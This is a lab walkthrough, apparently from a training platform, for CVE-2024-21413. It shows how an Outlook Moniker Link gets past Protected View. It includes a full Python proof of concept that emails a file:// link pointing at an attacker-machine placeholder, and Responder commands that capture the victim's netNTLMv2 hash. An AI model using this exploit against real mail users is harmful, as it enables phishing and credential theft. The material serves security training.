


# Exploitation

For this attack, we will email our victim a Moniker Link similar to the one provided in the previous task. The objective, as the attacker, is to craft an email to the victim with a Moniker Link that bypasses Outlook's "Protected View", where the victim’s client will attempt to load a file from our attacking machine, resulting in the victim’s netNTLMv2 hash being captured.

But first, let’s run through a <span style="color: inherit;">PoC example</span> (which is also available on [GitHub](https://github.com/CMNatic/CVE-2024-21413)).

```python
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```

The <span style="color: inherit;">PoC</span>:

- Takes an attacker & victim email. Normally, you would need to use your own <span style="color: inherit;">SMTP</span> server
- Requires the password to authenticate.
- Contains the email content (html_content), which contains our Moniker Link as a HTML hyperlink
- Then, fill in the "subject", "from" and "to" fields in the email
- Finally, it sends the email to the mail server

&nbsp;

Below it's represented an example of this attack being applied to a vulnerable target machine by a attack machine.

Let’s use Responder to create an <span style="color: inherit;">SMB</span> listener on our attacking machine. For this example, the interface will be `-I ens5`. The interface name will differ if you are using your own device (i.e. Kali). If you would like some homework, an Impacket server can also be used.

```shell
root@attackbox# responder -I ens5
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

-- cut for brevity --

[+] Listening for events...
```

&nbsp;

In a vulnerable machine, open Outlook and login as the targeted account to receive the email with the Moniker Link.



Returning to the attack machine, create a file with `nano exploit.py` and copy the PoC code into it. Modify the Moniker Link (line #12) in our PoC to reflect the IP address of our AttackBox. And replace the MAILSERVER placeholder on line #31 with the target IP. When done, we can run the exploit.

```shell
root@attackbox# python3 exploit.py
Enter your attacker email password: attacker
```

The Python script will print "Email delivered" when the email has been sent. If the script complains about authentication failure, ensure you have correctly replaced the values in exploit.py. Now, let's return to the vulnerable machine and check for the new email:



Click on the "Click me" hyperlink and return to our "Responder" terminal session on the AttackBox:


Success! The victim's netNTLMv2 hash has been captured on our AttackBox.